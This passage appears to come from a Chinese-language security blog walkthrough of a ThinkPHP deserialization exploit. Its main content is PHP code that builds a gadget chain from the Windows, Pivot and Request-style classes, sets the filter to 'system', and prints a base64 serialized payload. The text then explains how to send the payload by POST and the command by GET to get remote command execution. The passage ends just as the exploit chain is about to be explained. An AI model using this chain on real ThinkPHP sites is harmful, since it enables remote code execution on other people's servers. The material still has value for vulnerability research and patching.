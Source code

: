 ```
        // HTTPS代理标识
        'https_agent_name' =&gt; '',
        // IP代理获取标识
        'http_agent_ip'    =&gt; 'HTTP_X_REAL_IP',
        // URL伪静态后缀
        'url_html_suffix'  =&gt; 'html',
    ];
    function __construct()`{`
        $this-&gt;filter = "system";
        $this-&gt;config = ["var_ajax"=&gt;''];
        $this-&gt;hook = ["visible"=&gt;[$this,"isAjax"]];
    `}`
`}`
namespace think\process\pipes;

use think\model\concern\Conversion;
use think\model\Pivot;
class Windows
`{`
    private $files = [];

    public function __construct()
    `{`
        $this-&gt;files=[new Pivot()];
    `}`
`}`
namespace think\model;

use think\Model;

class Pivot extends Model
`{`
`}`
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
?&gt;
```

首先自己构造一个利用点，别问我为什么，这个漏洞就是需要后期开发的时候有利用点，才能触发

[![](https://p3.ssl.qhimg.com/dm/1024_439_/t01ff7baf447c31e922.png)](https://p3.ssl.qhimg.com/dm/1024_439_/t01ff7baf447c31e922.png)

我们把payload通过POST传过去，然后通过GET请求获取需要执行的命令

[![](https://p1.ssl.qhimg.com/dm/1024_481_/t01c519e7eaf329fc07.png)](https://p1.ssl.qhimg.com/dm/1024_481_/t01c519e7eaf329fc07.png)

执行点如下：

[![](https://p1.ssl.qhimg.com/dm/1024_355_/t01af4d3f0dd2a6274c.png)](https://p1.ssl.qhimg.com/dm/1024_355_/t01af4d3f0dd2a6274c.png)

利用链如下：
